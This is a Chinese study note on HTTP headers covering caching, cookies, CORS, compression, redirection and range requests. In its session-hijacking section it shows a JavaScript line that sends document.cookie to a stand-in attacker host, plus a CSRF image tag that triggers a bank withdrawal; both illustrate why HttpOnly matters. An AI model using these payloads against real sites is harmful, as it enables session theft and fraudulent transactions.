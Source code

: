 #+title: HTTP Headers 学习笔记
#+date: 2019-01-04
#+STARTUP: align
#+index: HTTP Headers 学习笔记
#+tags: HTTP
#+begin_abstract
大概两年前粗略地读过一下 *HTTP权威指南* 这本书(不知道名字有没有记错),当时读起来感觉好难懂,现在想起来感觉就像读 =Reference= 一样,不过书的确是好书,不过做为教程就有点过于厚重了.

因为之前读 *HTTP权威指南* 的时候还有很多地方不太懂,所以最近打算要复习一下 =HTTP Headers= 的内容,正好发现 *MDN* 上面有这部分的教程,并且简单明了,于是打算针对这一块这个笔记.

说个题外话, *MDN* 真是一个关于 *WEB* 开发的很好的文档库,我说的 *WEB* 开发并非只针对前端或者后端,而是前后端的总和, *MDN* 的教程相比那些厚重的书可谓是好太多了,简单易懂,而且还免费,这里衷心感谢 *Mozilla* 以及开源社区的各位.
#+end_abstract

HTTP 的[[https://developer.mozilla.org/en-US/docs/Web/HTTP/Overview][概览]]就不写了,自己看就好.后面也一样,详细的东西不会再赘述,我只会大概总结比较重要的东西.这里的内容我尽量会用 =Nginx= 的 =add_header= 指令来实践一下.

*** 缓存 (Cache)

缓存有不同类型(这里的缓存是指 =WEB= 的组成部分,并非储存的内容,自己结合上下文了解),可以分两大类: 私有(private)和公有(shared).私有就是只针对单个用户,比如浏览器自带的缓存;公有是对于多个用户的,公有缓存的目是储存可以复用的响应资源,比如代理缓存,网关缓存, =CDN=, 以及 =WEB= 服务器部署的反向代理缓存和负载均衡.

并非所有东西都够被缓存(cached),通常限于 =GET= 响应,其它请求方法可能没有那么好,常见的可缓存对象有如下:

1. 成功响应 (=GET= 请求的 =200= 响应)

2. 永久重定向 (=301= 响应)

3. 错误响应 (=404= 页面)

4. 不完全响应 (=206= 响应)

5. 除了 =GET= 以外适合用于作为缓存键(cache key)的响应,比如由不同键(secondary key)区分的多个缓存响应的组合

缓存索引内容形式大概就是 =Key : Value=, =Value= 就是缓存的内容, =Key= 是 =请求方法 + 目标 URI= 这样的组合,当用同样的请求方法请求同样的 =URI= 的时候就会找到对应的缓存资源了.

**** 缓存控制
***** Cache-Control

=HTTP/1.1= 的通用头,用来指定对于请求和响应的储存机制.

- 完全不缓存任何内容,每次浏览器请求服务器的时候都会得到一个完整的请求

  #+BEGIN_EXAMPLE
  Cache-Control: no-store

  或者

  Cache-Control: no-cache, no-store, must-revalidate
  #+END_EXAMPLE

- 不让缓存服务器缓存资源,在服务器发放新的缓存副本之前,缓存服务器会给原本的服务器发送请求进行验证,

  因为浏览器和服务器(也就是前面的原本的服务器)之间可能会有各种缓存(服务器),原本服务器更新了内容的话,中间缓存不一定会及时得到更新,为了确保是和原本服务器的内容一样就需要这么做了.

  #+BEGIN_EXAMPLE
  Cache-Control: no-cache
  #+END_EXAMPLE

- 设置公有或者私有缓存

  #+BEGIN_EXAMPLE
  Cache-Control: private

  或者

  Cache-Control: public
  #+END_EXAMPLE

- 设置缓存内容的生命周期为 =<seconds>= 秒

  #+BEGIN_EXAMPLE
  Cache-Control: max-age=<seconds>
  #+END_EXAMPLE

- 使用前必须验证缓存内容

  #+BEGIN_EXAMPLE
  Cache-Control: must-revalidate
  #+END_EXAMPLE

**** 新鲜度 (Freshness)

新鲜度话题涉及浏览器,缓存(服务器)以及源服务器三个组成部分.

#+CAPTION: 公有缓存的处理过程
https://mdn.mozillademos.org/files/13771/HTTPStaleness.png

新鲜度时间根据几个头来计算的,不同情况的计算方式不一样,

1. 如果指定了 =Cache-control: max-age=N=,那么新鲜度时间为 =N= 秒

2. 如果没有指定 =Cache-control: max-age=N=,那么检查 =Expires= 头,如果 =Expires= 头储存,那么它的值就减去 =Date= 头的值来得出新鲜度的时间.

3. 如果 =Expires= 头也不存在,那么就检查 =Last-Modification= 头,如果这个头存在,那么新鲜度的时间为 =Date= 头的值减去 =Last-Modified= 头的值的十分之一.

计算出新鲜度后就可以计算过期时间了: =接受到响应的时间点 + 新鲜度时间 - 当前缓存服务器资源的年龄=


**** 资源版本修订

给静态资源,比如 =CSS=, =JS= 这种文件的名字后面增加版本号,每次更新文件就修改版本号,这样可以(通过访问新的URI的方式)让静态资源马上得到更新.只需要开发人员开发的时候注意版本号,一般这工作都是交给自动构建工具完成的.


**** 缓存验证

(注意缓存资源处于缓存中).

如果缓存的响应包含 =Cache-control: must-revalidate= 头,那么当浏览器重新访问该资源的时候就会对它进行验证(发送验证请求),检查是否过期.

当缓存的文档到了过期时间,那么就会验证它或者刷新它,只有服务器提供了强验证器(strong validator)或者弱验证器(weak validator)的时候浏览器才会发验证请求.

强验证器是指响应头对于 =user agent= 不透明的,也就是说 =user agent= 不知道这个头的值代表什么以及值是什么.弱验证器是因为它们的精确度准确到秒.

强验证器有 =ETag=,弱验证器有 =Last-Modified=.

如果资源的部分响应中含有 =ETag= 头,那么客户端可以在后续的请求中加入 =If-None-Match= 头来验证缓存的资源.

如果响应中有 =Last-Modified= 头,那么客户端可以在后续的请求头中加入 =If-Modified-Since= 头来验证缓存的文档.

当验证的请求发送后,服务器可以通过返回 =200 OK= 来无视验证请求,或者返回 =304 Not Modified= 来告诉浏览器可以继续使用缓存的备份.后者还可以更新缓存文档的过期时间.

**** 区分响应 (Varying response)

=Vary= =HTTP= 响应头判断如何匹配之后的请求来决定是否继续使用一个已缓存的响应而或者向服务器请求刷新.

当缓存服务器收到一个请求,如果该请求带有一个 =Vary= 头,并且该 =Vary= 头与已缓存的响应的 =Vary= 一致就可以继续使用已缓存的资源,否则刷新资源.

#+CAPTION: HTTP Vary 头
https://mdn.mozillademos.org/files/13769/HTTPVary.png


*** Cookies

=Cookies= 的具体作用就不多说了,具体参考[[https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies][这里]]开头介绍.

服务器通过 =Set-Cookie= 响应头给 =User Agent= 颁发 =cookies=, =User Agent= 通过 =Cookie= 请求头给服务器发送 =cookies= 用来验证.

**** 会话cookies (Session Cookies)

结果例子,服务器给客户端颁发了一个 =cookie=,

响应头如下:

#+BEGIN_EXAMPLE
HTTP/2.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[page content]
#+END_EXAMPLE

客户端再次请求服务器时候的请求头如下:

#+BEGIN_EXAMPLE
GET /sample_page.html HTTP/2.0
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
#+END_EXAMPLE

这种叫做会话 =cookies=,这种 =cookies= 不指定 =Expires= 或者 =Max-Age= 头,一旦客户端关闭就会删除这些 =cookies=.

然而浏览器可以使用会话恢复(session restoring)功能,让大部份的会话 =cookies= 就好像没关闭过浏览器一样长期存在.



**** 持久cookies (Permanent cookies)

与会话 =cookies= 相反,持久 =cookies= 会在(通过 =Expires= 指令设置)特定日期或者(通过 =Max-Age= 指令设置)特定时间后过期.

#+BEGIN_EXAMPLE
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
#+END_EXAMPLE









**** Secure和HttpOnly

当 =cookies= 标记为 =Secure= 后,该 =cookie= 只能经过 =HTTPS= 协议加密后发送给服务器,即便如此也不要把重要信息储存在 =cookies= 中.

为了防止跨站脚本(cross-site scripting OR XSS)攻击, =JavaScript= 的 =document.cookie API= 是不能访问设置了 =HttpOnly= 的 =cookies= 的.

#+BEGIN_EXAMPLE
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
#+END_EXAMPLE


**** Cookies的作用域

=Cookies= 通过 =Domain= 和 =Path= 两个指令指定 =cookies= 的作用域,也就是告诉客户端 =cookies= 要发送到哪里.

=Domain= 指定可以接收 =cookies= 的服务器,如果没有指定,默认就是当前文档位置的服务器 (host of the current document location),不算它的子域;如果指定了,那么子域就包含进去.

=Path= 指定可以发送到 =Domain= 下的特定路径,该路径必须要存在在请求的 =URL= 中.

比如,如果 =Path=/docs=,那么以下路径也会被匹配:

#+BEGIN_EXAMPLE
/doc
/doc/Web/
/docs/Web/HTTP
#+END_EXAMPLE



**** 会话劫持和XSS(Session hijacking and XSS)以及跨站请求伪造(Cross-site request forgery)

会话劫持就是通过社会工程学或者利用 =WEB= 的 =XSS= 漏洞来窃取 =cookie=,比如一个用户登录了一个网站,这个时候用户在这个页面点击了一个伪造的连接如:

#+BEGIN_SRC javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie?cookie=" + document.cookie;
#+END_SRC

=HttpOnly= 可以防止这种问题的发生.

跨站请求伪造和 =XSS= 其实差不多,不过比起 =XSS= 直接偷 =cookie=,它是直接利用用户登录后的 =cookie= 直接调用一些接口,比如万年的银行转账例子:

用户登录了银行帐号并且 =cookie= 还合法,然后点击了这个连接:

#+BEGIN_SRC html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
#+END_SRC



**** 跟踪和隐私

***** 第三方 cookies (Third-party cookies)

=Cookie= 是和域名关联的,如果 =cookie= 关联的域名和当前域名的域名一样,这种 =cookie= 就是第一方 =cookie= (first-party cookies),第一方 =cookie= 只会被发送到源服务器中.

和第一方 =cookie= 相对,如果发送的服务器的域和 =cookie= 关联的域名不一样,那么这些 =cookies= 叫做第三方 =cookie= (third-party cookies).第三方 =cookie= 最常见的就是网页的广告,有第三方拓展可以禁止第三方 =cookie=.

***** Do-Not-Track

=DNT= 头告诉 =Web= 应用或者跨站用户不要跟踪某个用户.

***** 僵尸cookies和删不掉的cookies (Zombie cookies and Evercookies)

在删除之后马上被重新新建的 =cookies= 叫做僵尸 =cookies= 或者叫做删不掉的 =cookies=,这是通过 =Web storage API=, =Flash= 本地共享对象 (=Flash Local Shared Objects=) 以及其他技术来实现.


*** 跨域资源共享 (CORS: Cross-Origin Resource Sharing)

=CORS= 是一套机制: 通过使用额外的 =HTTP= 头告诉浏览器在某个域上运行的 =WEB= 应用拥有访问其它源上的某些(全部或者部分)资源.浏览器发送的这种请求叫做跨源请求(cross-origin HTTP request),只要域,协议和端口这三者中有一个不一样,那么就是不同源.

出于安全原因,浏览器会限制脚本的跨源请求,比如 =XMLHttpRequest= 和 =Fetch API= 就是遵守同源策略(same-origin policy),也就是说这些 =APIs= 只能请求同一个源上的资源,除非其它源(服务器)的响应配置了正确的 =CORS= 头部.

并非所有请求(request method)都会触发 =CORS preflighted (CORS 预测)=,(相对于简单请求)预测请求就是首先发送一个 =OPTIONS= 方法的请求,目的是为了知道资源的服务器支持哪些请求方法,然后再处理后续请求.不触发预测请求的请求叫做简单请求(simple requests).简单请求需要满足这些[[https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#Simple_requests][条件]],预测请求则需要满足这些[[https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#Preflighted_requests][条件]].

#+CAPTION: 简单请求
https://mdn.mozillademos.org/files/14293/simple_req.png

#+CAPTION: 预测请求
https://mdn.mozillademos.org/files/16401/preflight_.png

其中:

1. 请求中的 =Origin= 头表示发起请求的源;

2. 响应中的 =Access-Control-Allow-Origin= 头表示允许发请求访问的源;

3. 在预测请求中, =Access-Control-Request-Method= 头通知资源服务器接下来要发送实际请求的方法;

4. 在预测请求中, =Access-Control-Request-Headers= 头通知资源服务器发送实际请求时候带的自定义头;

5. 在预测响应中, =Access-Control-Allow-Methods= 头通知浏览器能发送的请求方法;

6. 在预测响应中, =Access-Control-Allow-Headers= 头通知浏览器能发送的自定义头;

7. 在预测响应中, =Access-Control-Max-Age= 指定了响应在下一个预测请求发送前能够缓存的时间.

**** 跨源请求的凭证问题

默认情况下,跨域 =XMLHttpRequest= 或者 =Fetch= 进行请求是不会发送凭证(=HTTP cookies= 和 =验证信息=)的.

如果想要利用这些 =APIs= 进行带凭证的跨域请求,可以设置 =XMLHttpRequest= 对象的 =withCredentials= =flag= 或者构建 =Request= 对象时候设置 =credentials= 参数.

如果服务器没有针对这些请求在响应中添加 =Access-Control-Allow-Credentials: true= 头,那么这个响应就会被浏览器无视.

还有要注意的是,当服务器接受到带凭证的跨域请求的时候, =Access-Control-Allow-Origin= 头一定要指定特定的源,不能是 =*= 元字符,否则会失败,因为带凭证的跨域请求带有 =Cookie= 头,而 =*= 不能正确匹配.

在 =CORS= 响应中设置的 =cookies= 叫做第三方 =cookie= (相关的参考 third-party cookie policies),如果用户把浏览器配置成不拒绝第三方 =cookies= 的话,第三方 =cookies= 就不会被保存.


*** 压缩 (Compression)

压缩可以提高网站的性能,节约带宽.现实中,开发开发者不需要实现压缩,浏览器和服务器早就好了,不过开发者要保证服务器配置正确.

可以在三个层面上进行压缩:

1. 文件格式

文件相比文字占用的空间要大,如果文字的冗余程度多于 =60%=,那么换成文件的话就要占用更多的空间.文件压缩算法分两大类:无损压缩算法以及有损压缩算法.

无损压缩算法(=Loss-less compression=)在解压和压缩过程中不修改要恢复的数据,复原前后的数据内容是一致的,比如 =gif= 和 =png= 格式的文件是采用无损压缩算法.

有损压缩算法(=Lossy compression=)则在解压和压缩过程中对原始数据进行修改,修改的程度则是用户难以察觉,通常在线视频就是采用有损压缩算法, =jpeg= 格式的图片也是有损.

也有一些文件格式可以采用两种算法,比如 =webp=,总体而言,有损压缩算法比无损压缩算法效率高.

2. =HTTP= 层面上的加密算法

这个层面上的叫做端到端压缩(end-to-end compression),具体做法就是服务器压缩资源,等待浏览器接收然后才解压,传输过程中不进行任何解压和压缩.

这个过程采用内容协商机制(proactive content negotiation),浏览器发送 =Accept-Encoding= 首部,包含它所支持的压缩算法以及使用优先级,服务器选择其中一种,并且通过 =Content-Encoding= 首部告诉浏览器选择的哪一种.

服务器必须发送一个包含 =Accept-Encoding= 的 =Vary= 头来对资源进行不同形式的缓存.

#+CAPTION: 端到端的压缩过程
[[https://mdn.mozillademos.org/files/13811/HTTPCompression1.png]]

3. 节点之间的链路层面上的压缩

逐跳压缩(Hop-by-hop compression),和端到端压缩类似,区别在于压缩发生在客户端与服务器中间的节点,不包括浏览器和服务器,比如缓存服务器,代理服务器等等.同样,这也需要进行内容协商.

发送请求的接点需要发送 =TE= 头告诉响应节点支持哪种压缩算法,然后响应节点通过返回 =Transfer-Encoding= 头告诉请求节点选择了哪一种压缩算法.

#+CAPTION: 逐跳的压缩过程
[[https://mdn.mozillademos.org/files/13809/HTTPComp2.png]]


*** 内容协商 (Content negotiation)

对同一个 =URI= 提供不同的展现形式,例如文档使用的自然语言,编码形式,图片格式等等.客户端请求资源的时候,服务器会选择该资源的变种做为响应,服务器如何选择变种资源则是靠内容协商机制决定的.

#+CAPTION: 内容协商机制
[[https://mdn.mozillademos.org/files/13789/HTTPNego.png]]

选择变种资源是通过以下两种方法其中一种:
1. 客户端指定 =HTTP= 头,这种叫做服务器驱动或者主动协商(server-driven negotiation or proactive negotiation),是标准的协商方式.
2. 服务器响应 =300= 或者 =406= 响应码,这种叫做代理驱动或者响应式协商(agent-driven negotiation or reactive negotiation),做为回滚机制使用.

**** 服务器驱动协商
这种方式定义了一套标准 =HTTP= 请求头来用于服务器驱动协商,除了标准头,还有一些别的头也能够用于内容协商.

***** 标准头

- Accept

  声明用户代理能够处理的所有 =MIME= 类型,该头的值是一个列表,每种类型都通过一个逗号隔开.

- Accept-CH

  目前还处于实验阶段,告诉服务器用户代理的需要选择一个正确的响应.(不深入了解,目前只有 =Chrome 46+= 的浏览器实现了).

- Accept-Charset

  声明用户代理能够理解的字符编码.

- Accept-CH-Lifetime

  和 =Accept-CH= 类似,不做深入了解,目前只有 =Chrome 61+= 的浏览器实现了.

- Accept-Encoding

  声明用户代理所支持的内容压缩算法.

- Accept-Language

  声明用户的偏好语言.

***** 非标准头

- User-Agent

  标识用户代理是什么浏览器,是一个字符串,内容一般如下,

  #+BEGIN_EXAMPLE
  USER-AGENT     :: PRODUCT-TOKEN + ("(" + COMMENT + ")")? + " " + USER-AGENT
                 :: ""
  PRODUCT-TOKENS :: name + "/" + version-number
  COMMENT        :: free-string-without-any-parentheses
  #+END_EXAMPLE

  举个例子, =Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:65.0) Gecko/20100101 Firefox/65.0=.

  =COMMENT= 没有定义一个标准,一般来说就是上面这个例子的写法.

- Vary

  上面缓存中有写,就不说了.
**** 代理驱动协商

具体就不说了,了解[[https://developer.mozilla.org/en-US/docs/Web/HTTP/Content_negotiation#Agent-driven_negotiation][一下]]就好.


*** 重定向 (Redirection)

也叫做 =URL= 转发 (URL forwarding):访问某个 =URL= 的时候跳转到其它 URL, 有几个用途:当网站在维护的时候临时转发原来 =URL= 到能够访问的地方,以及当网站发生永久改变的时候保证旧的 =URL= 能够正常使用.

重定向有三种类型:永久重定向(permanent redirection),临时重定向(temporary redirection)和特殊重定向(special redirection).

**** 永久重定向

意味着这些重定向是长期不变的,这也暗示了原来的 =URL= 不再使用并且推荐新的 =URL=,搜索引擎会触发一次更新.

常见的两种状态码有两种:

|   | <状态码> | <文本描述>         | <方法处理>                        | <典型使用例子>                |
|---+----------+--------------------+-----------------------------------+-------------------------------|
| / |       <> | <>                 | <>                                | <>                            |
| # |      301 | Moved Permanently  | GET方法不变,其他方法可能会变成GET | 网站组织发生改变              |
| # |      308 | Permanent Redirect | 方法和消息主体不变                | 网站组织发生改变(用于non-GET) |


**** 临时重定向

有时候不能在标准的地方访问资源,但可以在别的地方访问.这个时候可以临时重定向,搜索引擎不会触发更新.

|   | <状态码> | <文本描述>         | <方法处理>                                       | <典型使用例子>                       |
|---+----------+--------------------+--------------------------------------------------+--------------------------------------|
| / |       <> | <>                 | <>                                               | <>                                   |
| # |      302 | Found              | GET方法不变,其他方法可能会变成GET                | 页面暂时不可用                       |
| # |      303 | See Other          | GET方法不变,其他方法可能会变成GET (消息主体丢失) | 在PUT或者POST后重定向来阻止页面刷新  |
| # |      307 | Temporary Redirect | 方法和消息主体不发生改变                         | 页面由于某些原因不能使用,用于non-GET |


**** 特殊重定向

|   | <状态码> | <文本描述>      | <典型使用例子>                                      |
|---+----------+-----------------+-----------------------------------------------------|
| / |       <> | <>              | <>                                                  |
| # |      300 | Multiple Choice | 在HTML页面中显示所有选项,也可以返回 =200 OK= 状态码 |
| # |      304 | Not Modified    | 缓存刷新                                            |





**** 其他重定向实现手段 

除了在后端设定头以外,还有其他方法可以实现重定向,[[https://developer.mozilla.org/en-US/docs/Web/HTTP/Redirections#Alternative_way_of_specifying_redirections][具体]]自己看,大部份人都略有了解.

**** 重定向循环

无限的重定向循环会导致永远找不到页面,大部份都是服务器的设置问题,如果服务器检测到了就会返回 =500 Internal Server Error= 错误 (并非所有错误都是因为重定向循环).

当然服务器也有检测不到的时候,比如服务器与服务器之间的重定向循环,这种情况浏览器就会检测到并且显示一个错误信息(不同浏览器的信息不一样).


*** 范围请求/部分请求 (Range requests/Partial requests)

范围请求允许服务器只发消息的一部分给客户端,用于大的媒体文件以及实现暂停和重启下载的功能.

如果服务器的响应有 =Accept-Ranges= 首部并且值不为"none",那么服务器就支持范围请求,可以通过 =HEAD= 请求来验证,可以使用 =curl -I XXXX-URL= 来实现,返回结果会有 =Content-Length=,可以看出请求资源的大小.

如果服务器支持部分请求,那么用户可以设置 =Range= 头告诉服务器应该返回多大的文档 (parts of a document),成功的话还会返回 =206 Partial Content= 返回码.

同样可以利用 =curl -i -H "Range: bytes=0-1023" xxx-URL= 做实验(curl真的是万能的啊),其中 =-H= 选项是设置请求头的.

比如下载图片的第一个 =1024= 字节,

#+BEGIN_SRC shell
curl -i -H "Range: bytes=0-1023" http://i.imgur.com/z4d4kWk.jpg
#+END_SRC

这里会返回 =206 Partial Content= 状态码,并且 =Content-Length= 会显示内容大小, =Content-Range= 会标明部分信息属于哪一块,比如 =0-1023/146515=.

如果指定的范围大于请求资源的大小,就会返回 =416 Requested Range Not Satisfiable= 状态,比如上面的例子整个文档大小为 =146515 bytes=,把请求命令改为如下就会返回 =416=.

#+BEGIN_SRC shell
curl -i -H "Range: bytes=146515" http://i.imgur.com/z4d4kWk.jpg
#+END_SRC

上面是只下载一部分的,还指定多个范围集来告诉浏览器可以下载多个部分,一般开发中前端给后端上传文件都是用这种方式.

#+BEGIN_SRC shell
curl -i -H "Range: bytes=0-10, 100-150" https://developer.mozilla.org/en-US/docs/Web/HTTP/Range_requests
#+END_SRC

这里的意思是请求两个部分,响应头会包含 =content-type: multipart/byteranges; boundary=CloudFront:22D01D86714B960A7B73A5F8F8A4B9B0=,这个头说明了有多部分信息,每一部分都有自己的 =Content-Type=, =Content-Range= 头以及用来指定划分信息的边界参数.

多部分请求的时候要注意,多个范围机和中只少要有一个范围是合法的,否则将会返回 =406=.







*** 条件请求 (Conditional requests)

一个请求的结果会取决于验证器对资源验证的结果,这种请求叫做条件请求.用于验证缓存的有效性,文件完整性以及是否支持范围请求等等.由于验证器的概念在缓存一节提过一下,并且这一块比较笼统,[[https://developer.mozilla.org/en-US/docs/Web/HTTP/Conditional_requests][具体]]请自己看.


*** 身份认证 (Authentication)

=HTTP= 有一套通用的访问控制以及认证机制,最常见的 =HTTP= 认证是基于 ="Basic"= 方案的.

#+CAPTION: 通用认证的流程
[[https://mdn.mozillademos.org/files/14689/HTTPAuth.png]]

这一块需要配置后端服务, =Apache= 或者 =Nginx= 等等,详细就自己参考对应后端服务的操作手册.

*** 安全

详细请阅读[[https://infosec.mozilla.org/guidelines/web_security][这里]],实际上除了所谓的安全问题外还有其他的相关内容,比如 =robots.txt= 文件的编写以及如何防止别人通过 =iframe= 来盗用你的网站等等,基本全部都有示例,十分值得一看.
